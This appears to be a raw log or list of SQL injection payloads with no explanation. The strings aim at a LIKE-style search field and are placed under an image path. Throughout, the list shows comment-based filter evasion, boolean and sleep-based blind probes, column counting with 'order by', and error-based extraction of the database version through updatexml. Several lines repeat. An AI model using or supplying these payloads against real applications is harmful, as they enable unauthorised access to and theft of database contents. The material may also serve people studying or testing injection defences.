 ```
%'/**/%23
%'/**/and/**/1=1/**/and/**/'%'='#
%'/**/and 1=1 and '%'='
%'/**/and 1=1 and '%'='
%'/**/and/**/1=1 and '%'='
%'/**/and/**/1=1 and '%'='
%'/**/and/**/1=1/**/and '%'='
%'/**/and/**/1=1/**/and '%'='
%'/**/and/**/1=1/**/and%0A'%'='
null
null
null
null
null
null
null
null
null
null
%'/**/and/**/1=a/**/and '%'='
%'/**/and/**/1=1/**/and '%'='
%'/**/and/**/1=1/**/and '%'='
%'and updatexml(1,if(1=1,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'and updatexml(1,if((select 'sleep'),0x23,1),1) and '%'='
%'and updatexml(1,if((select 'sleep'),0x23,1),1) and '%'='
%'and updatexml(1,if(1=1,0x23,1),1) and '%'='
%'and updatexml(1,if(1=1,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) and '%'='
null
null
111''
111''
%' order by 10--+
%' order by 1#
%'/**/order/**/by/**/1#
1
1
1'
1'and 1 -- 
1' and 1 -- '
%
%
%'and 1=2 and '%'='
%'and 1=2 and '%'='
%'and 1=sleep(5) and '%'='
%'and 1=sleep(5) and '%'='
%'and updatexml(1,if(1=1,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'and updatexml(1,if(1=2,0x23,1),1) and '%'='
%'#
%' #
%'--+
%' --+
%' /*
%'/**/#
%'/**/and/**/1=1/**/and/**/'%'='
%'/**/and 1=1 /and '%'='
%'/**/and/**/1=1/**/and '%'='
%'/**/and/**/1=1/**/and '%'='
```
